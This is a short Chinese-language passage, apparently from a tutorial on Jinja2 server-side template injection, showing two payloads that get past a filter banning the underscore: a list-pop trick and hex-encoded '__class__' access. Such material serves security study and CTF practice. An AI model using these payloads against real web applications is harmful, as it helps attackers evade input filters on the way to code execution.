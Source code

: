 当`_`被 ban 时，有以下几种绕过方式

```bash
1、通过 list 获取字符列表，然后用 pop 来获取_，举个例子
{% set a=(()|select|string|list).pop(24)%}{%print(a)%}
2、可以通过十六进制编码的方式进行绕过，举个例子
{{()["\x5f\x5fclass\x5f\x5f"]}} ={{().__class__}}
```

[![在这里插入图片描述](assets/1698900310-b250acfb55a1dfa41aa9a186da100c3e.png)](https://storage.tttang.com/media/attachment/2022/08/14/29b9b04c-68e6-4f05-b3d0-bb1bcae08fcb.png)  
[![在这里插入图片描述](assets/1698900310-a22c969382e10c96795f9bd2ebd5d5d4.png)](https://storage.tttang.com/media/attachment/2022/08/14/ae4c5801-2733-4559-8674-51ff98fb38fc.png)

